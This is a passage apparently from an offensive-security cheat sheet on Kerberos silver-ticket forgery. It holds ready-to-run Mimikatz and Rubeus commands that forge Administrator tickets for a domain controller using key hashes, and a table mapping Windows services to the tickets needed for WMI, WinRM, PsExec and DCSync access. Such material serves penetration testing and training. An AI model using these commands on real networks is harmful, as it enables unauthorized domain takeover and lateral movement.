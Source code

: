 ```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /target:dc.corp.local /service:CIFS /rc4:6f5b5acaf6744d567ac55e67ff22 /user:Administrator /id:500 /groups:512 /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /target:dc.corp.local /service:CIFS /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /user:Administrator /id:500 /groups:512 /ptt"'
```
> **Note**: `/ptt` injects the ticket in current PowerShell process.
>
> `/ticket` saves the ticket to a file for later use.

> **Note**: Similar command can be used for any other service on a machine: `CIFS`, `HOST`, `RPCSS`, `WSMAN`...

Finally we can list the content of File System (In that case because we forged a Ticket for CIFS service on the DC).

* **Rubeus**

```
.\Rubeus.exe silver /service:cifs/dc-01.corp.local /aes256:<aes256keys> /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /nowrap
```


```
ls \\dc.corp.local\c$
```

This table shows the available services:

|                Service Type                |       Service Silver Ticket       |
|:------------------------------------------:|:---------------------------------:|
|                     WMI                    |             HOST RPCSS            |
|             PowerShell Remoting            | HOST HTTP  And Maybe: WSMAN RPCSS |
|                    WinRM                   |    HOST HTTP  And Maybe: WINRM    |
|               Scheduled Tasks              |                HOST               |
|        Windows File Sharing                |                CIFS               |
|                PsExec                      |                CIFS               |
| LDAP operations, DCSync                    | LDAP                              |
| Windows Remote Server Administration Tools | RPCSS LDAP CIFS                   |
| Golden Tickets                             | krbtgt                            |


There are many ways of achieve command executing using Silver Ticket.

## Schedule and Execute a task
